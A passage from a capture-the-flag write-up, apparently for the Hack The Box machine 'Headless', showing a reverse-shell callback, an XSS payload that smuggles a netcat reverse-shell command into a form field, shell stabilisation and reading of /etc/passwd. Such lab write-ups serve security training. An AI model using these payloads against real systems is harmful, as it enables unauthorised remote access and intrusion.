 As a result we received a callback.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.141] from (UNKNOWN) [10.129.237.154] 36348
bash: cannot set terminal process group (1158): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$
```

### Alternative: Admin Cookie Bypass

`Crow` provided a nice `all-in-one-solution` to completely skip the step of getting the `admin cookie`.
 
```c
<script>fetch("/dashboard",{    headers: {      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',      'Content-Type': 'application/x-www-form-urlencoded'    },    method: "POST",    body: 'date=;nc 10.10.14.141 1234 -c bash'})</script>
```

## Stabilizing Shell

Business as usual.

```c
dvir@headless:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dvir@headless:~/app$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

dvir@headless:~/app$ 
dvir@headless:~/app$ export XTERM=xterm
dvir@headless:~/app$
```

## Enumeration

We did some basic enumeration and saw that our user had a `home directory`, which is not unusual for setups in which a `python web application` is used, because they mostly run in the context of a user.

```c
dvir@headless:~/app$ id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

```c
dvir@headless:~/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```